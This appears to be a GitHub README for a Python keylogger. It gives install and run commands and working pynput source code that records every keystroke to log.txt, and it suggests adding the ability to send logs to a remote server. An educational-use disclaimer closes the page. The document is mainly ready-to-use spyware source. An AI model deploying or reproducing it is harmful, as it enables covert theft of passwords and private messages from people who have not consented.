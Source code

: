 # keylogger

📋 Table of Contents
1.Features
2.Installation
3.Usage
4.How It Works
5.Customization
6.Legal Disclaimer

1.🚀 Features
Captures all alphanumeric and special keys (e.g., space, enter, backspace).
Logs keystrokes in real-time to a file (log.txt).
Lightweight and easy to set up.

📦 Installation
Clone the Repository

In terminal
Copy code - git clone https://github.com/yourusername/keylogger-python.git
cd keylogger-python
Create a Virtual Environment (Optional but Recommended)

bash
Copy code - python -m venv venv
source venv/bin/activate  # On Windows use `venv\\Scripts\\activate`
Install Dependencies

Make sure you have Python installed (version 3.6 or above).
Install the required Python libraries:
bash
Copy code -pip install pynput
🛠️ Usage
Run the Keylogger

bash
Copy code - python keylogger.py
Viewing Logs

The keystrokes will be saved in a file named log.txt located in the same directory.
Open log.txt to view the captured keystrokes.
🧐 How It Works
This keylogger uses the pynput library to listen for keyboard events.
Every time a key is pressed:
Alphanumeric characters are logged directly.
Special keys (like space, enter, and tab) are logged with their respective actions.
The captured keystrokes are stored in a log.txt file for analysis.
Sample Code Snippet
python
Copy code

from pynput.keyboard import Key, Listener

def write_file(char):
    with open('log.txt', 'a') as f:
        f.write(char)

def on_press(key):
    try:
        if key.char:
            write_file(key.char)
    except AttributeError:
        if key == Key.space:
            write_file(' ')
        elif key == Key.enter:
            write_file('\n')

with Listener(on_press=on_press) as listener:
    listener.join()
⚙️ Customization
Change Log File Name:
Modify the log.txt to any preferred filename in the write_file function.
Add Network Capability:
You can extend this script to send logs to a remote server using the requests library.
⚠️ Legal Disclaimer
This keylogger is developed for educational purposes only. Unauthorized use of this tool to capture keystrokes on devices you do not own or without explicit permission is illegal and unethical. Always seek permission before using this tool on any system.

The author is not responsible for any misuse of this tool.

Next Steps:
